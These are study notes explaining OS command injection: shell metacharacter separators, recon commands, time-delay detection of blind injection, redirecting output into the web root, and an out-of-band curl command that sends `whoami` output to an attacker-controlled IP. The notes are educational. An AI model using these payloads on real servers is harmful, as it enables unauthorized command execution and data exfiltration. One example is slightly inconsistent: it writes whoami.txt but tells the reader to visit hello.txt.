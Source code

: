 # OS Command Injection
> Raj Pastagiya | 29/10/2023

## What is OS command injection?
- Allows attacker to execute operating system commands on the server.
- Typically fully compromise the application and data.

## Injecting OS Commands
- In below example, there is an ed-tech portal where the application lets the user to view course details with below API call:
```
https://www.myedtech.com/courses.php?courseID=381
```
- To provide the course details, the application must query legacy script (coursedetails.pl) and is implemented by calling oout a shell command with the courseID as arguments like this: `coursedetails.pl 381` 
	- This command outputs the course details which is return to the user.
- If there is no input validation mechanisms, then one can abuse this to inject shell commands.
## Useful Commands:
- Below is some useful commands which in general is allowed to run by any users and which will stand as a proof of concept for the OS command injection attack.

| Purpose of Command | Linux | Windows |
| ---- | ---- | ---- |
| Name of current user | `whoami` or `id` | `whoami` |
| Operating system | `uname -a` | `ver` |
| Network Configurations | `ifconfig` or `ip a` | `ipconfig /all` |
| Open Ports| `netstat -natup` or `ss -lntp` | `netstat -natup` |
| Sleep for 10 seconds | `sleep 10` | `timeout -t 10` |

- With above some basic commands like `ls`, `cat`, `echo` in Linux and its equivalent Windows commands like: `dir`, `type`, `echo` also can be helpful.

## Ways of injecting OS commands
- One can use a number of shell meta-characters to perform OS command injection attacks:
- Below characters will work on both Windows and Linux:
```
&
&&
|
||
```
- The following command separators will work specifically on Unix systems:
```
;
0x0a
`<cmd>`
$(<cmd>)
```
> NOTE: Sometimes just like SQL Injection techniques, one must terminate the quotes (" or ') before injecting commands.

## Blind OS command injection vulnerabilities
- Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.
- As an example, imagine a website that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details:
```
mail -s "Test" -aFrom:peter@user.net feedback@website.com
```

- The output from the `mail` command (if any) is not returned in the application's responses, so using the `echo` payload won't work. In this situation, you can use a variety of other techniques to detect and exploit a vulnerability.

#### Detecting blind OS command injection using time delays
- With time delays, we can correspond to "If the delay in response is X then command executed, else not" kind of nature.
- Here we can use "sleep X" or "ping -c X 127.0.0.1" commands.

#### Exploiting blind OS command injection by redirecting output
- Now to exploit the vulnerability where blind command injection is there, one approach is to redirect the output of the commands we execute to the directory of the hosted server.
	- Here we are assuming that we know which directory is hosted by the webserver.
	- Once we redirect the output, since it is written in the same directory which is hosted by server, we can just navigate to the file from webserver itself.
- Example (Assumption is the site is hosted for directory /var/www/html/):
```
whoami > /var/www/html/whoami.txt
```
- If above is used, then go to http://www.vulnerabl-site.com/hello.txt

#### Exploiting blind OS command injection using out-of-band (OAST) techniques
- You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
- For example if we can reach to our localhost(IP:10.10.10.10) somehow then host python3 HTTP server on localhost and then inject command:
```
curl http://10.10.10.10/index.php?var=`whoami`
```
- Here no need to create sophisticated servers, just  python HTTP server will also work.
